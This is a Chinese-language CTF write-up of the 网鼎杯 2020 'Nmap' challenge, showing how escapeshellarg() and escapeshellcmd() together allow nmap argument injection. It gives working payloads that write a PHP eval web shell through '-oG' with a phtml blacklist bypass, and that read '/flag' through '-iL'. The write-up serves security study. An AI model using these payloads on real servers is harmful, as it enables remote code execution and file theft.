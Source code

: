 # \[网鼎杯 2020 朱雀组]Nmap

## \[网鼎杯 2020 朱雀组]Nmap

## 考点

* Nmap使用
* escapeshellarg()+escapeshellcmd() 之殇
* 文件上传bypass
  * `phtml`绕过php黑名单
  * `<?=`绕过php黑名单

## wp

抓包可以看到请求的内容为`host=127.0.0.1`，没有其他东西。

* 传入`127.0.0.1' -o xxxx`，提示hostname是`127.0.0.1\`，访问xxxx无结果
* 传入`127.0.0.1 -o xxxx'`提示hostname是`127.0.0.1 -o xxxx\'`，访问xxxx无结果
* 传入`'127.0.0.1 -o xxxx '`，提示`Host maybe down`
* 访问xxxx，发现语句如下

```
nmap -Pn -T4 -F --host-timeout 1000ms -oX xml/47cae -o xxxx \127.0.0.1 \\
```

这就和[\[BUUCTF 2018\]Online Tool](buuctf-2018-online-tool.md)一样，那传入`127.0.0.1' -o xxxx`，应该访问`xxxx'`

使用同样的payload，提示`Hacker...`

```
'<?php eval($_POST["a"]);?> -oG shell.php '
```

测试发现过滤了php，`<?php`可以使用`<?=`绕过，写入的shell文件后缀可以使用`phtml`绕过

```
'<?=eval($_POST[1]);?> -oG shell.phtml '
```

蚁剑连接或者直接连接即可。

在Nmap中还有一个参数`-iL`是从文件中加载URL，也就是说，可以利用这一点进行文件读取

```
127.0.0.1' -iL /flag -o xxxx
```

![](<../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

## 小结

1. [PHP escapeshellarg()+escapeshellcmd() 之殇](https://paper.seebug.org/164/)
2. 类似[\[BUUCTF 2018\]Online Tool](buuctf-2018-online-tool.md)



